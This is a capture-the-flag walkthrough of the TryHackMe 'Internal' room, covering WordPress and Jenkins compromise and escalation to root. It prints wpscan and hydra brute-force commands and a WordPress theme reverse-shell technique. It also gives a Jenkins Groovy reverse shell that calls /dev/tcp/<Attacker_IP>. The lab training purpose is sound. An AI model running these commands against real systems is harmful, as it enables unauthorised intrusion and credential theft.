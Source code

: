 ```yaml
---
title: "TryHackMe Internal"
categories: [TryHackMe]
tags: [linux, web, wordpress, docker, jenkins]
media_subpath: /images/tryhackme_internal
image: 
  path: room-image.jpeg
---
```


Room link: [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)

Firstly, add `internal.thm` to /etc/hosts

![etc-hosts](etc-hosts.png)

## Initial scan

![port-scan](port-scan.png)

2 open ports:
 - 22 \| SSH
 - 80 \| HTTP

## Enumeration

Enumerating web directories using gobuster. (Also ran gobuster to check subdomains but it didn't find
anything)

![gobuster-main-domain](gobuster-main-domain.png)

Tried accessing `/phpmyadmin` using foolowing credentials but no luck, let's move on and run gobuster on `/blog`.
 - admin:admin
 - root:\<blank\>
 - root:root

![gobuster-blog](gobuster-blog.png)

## Initial Entry

While wpscan was running, looking at wordpress page there were no useful information.

```console
wpscan --url http://internal.thm/blog -e ap,u,tt,vt
```

![wpscan-admin-enum](wpscan-admin-enum.png)

Wpscan found `admin` user, we can bruteforce it using following command where `users.txt` contains admin username

```console
wpscan --url http://internal.thm/blog -U users.txt --passwords /usr/share/wordlists/rockyou.txt
```

We got password, let's login on `/blog/wp-login.php`

![wpscan-admin-pass](wpscan-admin-pass.png)

While digging in wp dashboard in (no title) posts we can found credentials for user william, tried to log in to ssh using those credentials but no luck.

![wordpress-posts](wordpress-posts.png)

![wordpress-notitle](wordpress-notitle.png)

We can try to catch reverse shell using edit theme. Choose 404 Template and paste pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![php-revshell](php-revshell.png)

Save modifications and access `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`

![www-data-shell](www-data-shell.png)

Stabilizing shell

![www-data-stabilizing-shell](www-data-stabilizing-shell.png)

Don't forget to check `/var/www/html/wordpress/wp-config.php`. Usually there DB credentials. But it wasn't so useful, the only user there was is admin and we know credentials

While enumerating there's only 1 `/home` user in this system. And also luckily for us there's credentials for this user in `/opt` directory!

Also we can grab `user.txt` flag in aubreanna's home directory

![aubreanna-enum](aubreanna-enum.png)

### **_user.txt Flag_**

![aubreanna-pass-and-flag](aubreanna-pass-and-flag.png)

## Privilege Escalation

Note says Jenkins service runs on port 8080. We can confirm that running `netstat -tln`

![jenkins-txt](jenkins-txt.png)

![netstat1](netstat1.png)

(And by the way we can switch to ssh since we have password for aubreanna)

![aubreanna-ssh-access](aubreanna-ssh-access.png)

We can forward port 8080 to out attacker's machine. 

```console
ssh -L <our_port>:127.0.0.1:<targets_port> username@ip
```

```console
ssh -L 8080:127.0.0.1:8080 aubreanna@internal.thm -fN
```

 - `-f` backgrounds the shell immediately so that we have our own terminal back
 - `-N` tells SSH that it doesn't need to execute any commands - only set up the connection.

If everything done correctly you should be able to access website on your machine at `127.0.0.1:8080`

![jenkins-website](jenkins-website.png)

Tried to login using credentials like `admin:admin`, `admin:password` etc. Also tried credentials for users: admin, william and aubreanna but none of them worked

Next what we could try is bruteforcing. If you try to login with dummy credentials we can see POST request sends to `/j_acegi_security_check`

![post-request](post-request.png)

Successfully got password using `hydra`

```console
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=/&Submit=Sign+in:F=Invalid username or password'
```

![jenking-hydra-brute](jenking-hydra-brute.png)

After logging in website greets us with Welcome page

![jenkins-welcome-page](jenkins-welcome-page.png)


Found this -> [https://exploit-notes.hdks.org/exploit/web/jenkins-pentesting/](https://exploit-notes.hdks.org/exploit/web/jenkins-pentesting/)

Following that we can catch reverse shell

1) Navigate to `/manage` directory or just click on `Manage Jenkins` on the left side of the page and click on `Script Console` at the bottom

![jenkins-manage](jenkins-manage.png)

2) Set up listener and paste following code for reverse shell and click `Run`:

```console
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/<Attacker_IP>/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![jenkins-script-console](jenkins-script-console.png)

After catching shell, it appears that we are in docker conatiner

We have no sudo here, however if you navigate to `/opt` directory you will find root's credentials

(Dont forget to kill ssh process with port forwarding)

![kill-ssh-process](kill-ssh-process.png)

Now go back to our non-docker shell (where is audrianna user) and switch to root. Now we can grab `root.txt`

### **_root.txt Flag_**

![root-flag](root-flag.png)
